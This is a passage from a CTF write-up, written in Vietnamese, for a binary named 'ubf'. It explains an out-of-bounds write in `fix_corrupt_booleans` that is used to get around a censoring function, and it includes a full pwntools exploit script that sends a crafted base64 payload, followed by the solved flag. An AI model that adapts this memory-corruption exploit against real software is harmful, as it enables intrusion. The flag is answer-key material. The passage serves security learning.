 ```c
    result = &v3[i];
    if ( result >= v2 )
      break;
    v3[i] = v3[i] != 0;
  }
  return result;
}
```
Hành vi của hàm `unpack_bools` không khác gì nhiều `unpack_string`, tuy nhiên ở hàm `fix_corrupt_booleans` ta thấy `v3 = &a1->handler_ptr[a1->cur_next];` 
bị bug `out-of-bond` nếu 
`a1->cur_next` < 0, chưa kể nếu `v3[i]` khác 0 thì nó sẽ ghi đè thành byte `\x01` thông qua `v3[i] = v3[i] != 0;`.

Hmm, ta có thể tận dụng bug để v3 để trỏ vào `flag`, từ đó ghi đè byte `C` thành byte `\x01` tù đó bypass hàm  `censor_string`.

```python
from pwn import *
from time import sleep

context.binary = e = ELF("./ubf")
libc = e.libc
gs="""
"""
def start():
	if args.LOCAL:
		p=e.process()
		if args.GDB:
			gdb.attach(p,gdbscript=gs)
			pause()
	elif args.REMOTE:
		p=remote(args.HOST,int(args.PORT))
	return p

p = start()
pause()
_ = (p32(0x60)+
     p8(ord('b'))+
     p16(0x1)+
     p16(0xdab5)+
     b"1"
	)
_ += (p32(0x60)+
     p8(ord('s'))+
     p16(0x3)+
     p16(0x6)+
     p16(5)*3+
     b"$FLAG"+b"$MOTD"+b"$TEAM"
)
payload = base64.b64encode(_)
p.sendline(payload)
p.interactive()
```
![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/af9f9eb2-21be-4764-8032-96474e831b27)

Flag: `CTF{Respl3nd4nt-C0nd1tion@l-El3ments}`
